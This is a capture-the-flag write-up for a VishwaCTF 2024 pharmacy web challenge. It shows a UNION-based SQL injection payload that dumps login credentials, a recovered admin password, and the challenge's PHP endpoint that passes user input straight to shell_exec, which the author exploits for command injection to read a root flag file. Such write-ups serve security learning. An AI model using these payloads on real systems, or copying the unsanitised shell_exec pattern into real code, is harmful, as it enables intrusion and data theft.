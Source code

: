1. SQLi on the login page:

![image](https://github.com/RJCyber1/VishwaCTF-2024-Writeups/assets/86359182/7bf3e602-0940-49f2-9514-769c2d97e0c5)

Payload (using burpsuite):

`username=test'UNION+SELEcT+username,null+from+users--+&password=test'UNION+SELEcT+pass,null+from+users--+`

![image](https://github.com/RJCyber1/VishwaCTF-2024-Writeups/assets/86359182/aaf70c7f-9c48-4a22-8748-d9ed4a298c22)

2. Login as pharmaowner: `pharmaowner:5trongp455$`

3. Buy `Needle and Syringe` to get pharmacy.php:

```
<?php
header('Content-Type: application/json');

if ($_SERVER["REQUEST_METHOD"] == "POST") 
{
    $enteredInput = $_POST['search_param'];
    
    if (strlen($enteredInput) == 0)
    {
        echo json_encode(['result' => "Search bar cannot be empty"]);
    }

    else
    {
        $result = shell_exec($enteredInput);

        if ($result == null)
        {
            echo json_encode(['result' => ($enteredInput . " not found in store")]);
        }

        else
        {
            echo json_encode(['result' => $result]);
        }
    }

} 

else 
{
    http_response_code(404);
    echo json_encode(['error' => 'Access Forbidden']);
}
?>
```

`shell_exec` means Command Injection can be used.

4. Find the flag file (`find / -name flag.txt`) and cat the flag (`cat /root/flag.txt`):

![image](https://github.com/RJCyber1/VishwaCTF-2024-Writeups/assets/86359182/2f73f71b-5364-4f04-abe5-de2715b7bd3e)
